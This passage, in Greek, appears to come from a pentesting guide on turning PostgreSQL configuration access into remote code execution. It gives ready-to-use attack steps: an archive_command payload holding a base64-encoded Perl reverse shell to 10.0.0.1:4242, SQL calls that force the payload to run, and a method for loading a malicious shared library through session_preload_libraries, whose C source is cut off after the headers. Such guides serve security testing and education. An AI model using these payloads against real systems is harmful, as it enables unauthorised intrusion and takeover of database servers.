 Κατά τη δοκιμή αυτής της διαδικασίας παρατήρησα ότι αυτό θα λειτουργήσει μόνο εάν το **ιδιωτικό κλειδί έχει δικαιώματα 640**, είναι **κατοχυρωμένο από το root** και από τη **συγκεκριμένη ομάδα ssl-cert ή postgres** (ώστε ο χρήστης postgres να μπορεί να το διαβάσει) και βρίσκεται στο _/var/lib/postgresql/12/main_.

#### **RCE με archive\_command**

**Περισσότερες** [**πληροφορίες για αυτήν τη ρύθμιση και για το WAL εδώ**](https://medium.com/dont-code-me-on-that/postgres-sql-injection-to-rce-with-archive-command-c8ce955cf3d3)**.**

Ένα άλλο χαρακτηριστικό στο αρχείο ρύθμισης που είναι εκμεταλλεύσιμο είναι το `archive_command`.

Για να λειτουργήσει αυτό, η ρύθμιση `archive_mode` πρέπει να είναι `'on'` ή `'always'`. Αν αυτό ισχύει, τότε μπορούμε να αντικαταστήσουμε την εντολή στο `archive_command` και να την εξαναγκάσουμε να εκτελεστεί μέσω των λειτουργιών WAL (write-ahead logging).

Τα γενικά βήματα είναι:

1. Έλεγχος εάν η λειτουργία αρχειοθέτησης είναι ενεργοποιημένη: `SELECT current_setting('archive_mode')`
2. Αντικατάσταση του `archive_command` με το φορτίο. Για παράδειγμα, ένα αντίστροφο κέλυφος: `archive_command = 'echo "dXNlIFNvY2tldDskaT0iMTAuMC4wLjEiOyRwPTQyNDI7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9zaCAtaSIpO307" | base64 --decode | perl'`
3. Επαναφόρτωση της ρύθμισης: `SELECT pg_reload_conf()`
4. Εξαναγκάστε τη λειτουργία WAL να τρέξει, η οποία θα καλέσει την εντολή αρχειοθέτησης: `SELECT pg_switch_wal()` ή `SELECT pg_switch_xlog()` για μερικές εκδόσεις της Postgres

#### **RCE με βιβλιοθήκες προφόρτωσης**
Περισσότερες πληροφορίες [σχετικά με αυτήν την τεχνική εδώ](https://adeadfed.com/posts/postgresql-select-only-rce/).

Αυτό το διάνυσμα επίθεσης εκμεταλλεύεται τις ακόλουθες μεταβλητές ρύθμισης:
- `session_preload_libraries` -- βιβλιοθήκες που θα φορτωθούν από τον διακομιστή PostgreSQL κατά τη σύνδεση του πελάτη.
- `dynamic_library_path` -- λίστα καταλόγων όπου ο διακομιστής PostgreSQL θα αναζητήσει τις βιβλιοθήκες.

Μπορούμε να ορίσουμε την τιμή του `dynamic_library_path` σε έναν κατάλογο, εγγράψιμο από τον χρήστη `postgres` που εκτελεί τη βάση δεδομένων, για παράδειγμα, τον κατάλογο `/tmp/`, και να μεταφορτώσουμε ένα κακόβουλο αντικείμενο `.so` εκεί. Στη συνέχεια, θα εξαναγκάσουμε τον διακομιστή PostgreSQL να φορτώσει τη νεομεταφορτωμένη μας βιβλιοθήκη συμπεριλαμβάνοντάς την στη μεταβλητή `session_preload_libraries`.

Τα βήματα της επίθεσης είναι:
1. Λήψη του αρχικού `postgresql.conf`
2. Συμπερίληψη του καταλόγου `/tmp/` στην τιμή του `dynamic_library_path`, π.χ. `dynamic_library_path = '/tmp:$libdir'`
3. Συμπερίληψη του ονόματος της κακόβουλης βιβλιοθήκης στην τιμή του `session_preload_libraries`, π.χ. `session_preload_libraries = 'payload.so'`
4. Έλεγχος της κύριας έκδοσης της PostgreSQL μέσω του ερωτήματος `SELECT version()`
5. Σύνταξη του κώδικα της κακόβουλης βιβλιοθήκης με το σωστό πακέτο ανάπτυξης PostgreSQL
Δείγμα κώδικα:
```c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
```